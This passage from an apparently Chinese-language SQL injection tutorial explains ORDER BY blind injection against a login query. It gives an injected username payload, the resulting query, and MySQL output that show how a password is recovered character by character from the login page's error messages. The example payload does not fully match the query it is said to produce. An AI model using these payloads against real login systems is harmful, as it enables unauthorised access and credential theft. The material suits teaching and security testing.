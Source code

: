     ```sql
    username=admin' union 1,2,'字符串' order by 3	//'
    ```

    此时sql语句变为:

    ```sql
    select * from admin where username='admin' or 1 union select 1,2,binary '字符串' order by 3;
    ```
    &emsp;&emsp;这里就会对第三列进行比较，即将字符串和密码进行比较。然后就可以根据页面返回的不同情况进行盲注。 注意的是最好加上binary，因为order by比较的时候不区分大小写。
    例如:

    ```sql
    mysql> select * from order1;
    +------+----------+----------+
    | id | username | password |
    +------+----------+----------+
    | 1 | admin | uP10AcB |
    +------+----------+----------+
    mysql> select * from order1 where username='' or 1 union select 1,2,'v' order by 3;
    +------+----------+----------+
    | id | username | password |
    +------+----------+----------+
    | 1 | admin | uP10AcB |
    | 1 | 2 | v |
    +------+----------+----------+
    
    
    mysql> select * from order1 where username='' or 1 union select 1,2,'a' order by 3;
    +------+----------+----------+
    | id | username | password |
    +------+----------+----------+
    | 1 | 2 | a |
    | 1 | admin | uP10AcB |
    +------+----------+----------+
    
    mysql> select * from order1 where username='' or 1 union select 1,2,'u' order by 3;
    +------+----------+----------+
    | id | username | password |
    +------+----------+----------+
    | 1 | 2 | u |
    | 1 | admin | uP10AcB |
    +------+----------+----------+
    ```
    &emsp;&emsp;这里的order by 3是根据第三列进行排序，如果我们union查询的字符串比password小的话，我们构造的 1,2,a就会成为第一列，那么在源码对用户名做对比的时候，就会返回username error!，如果union查询的字符串比password大，那么正确的数据就会是第一列，那么页面就会返回password error!.
    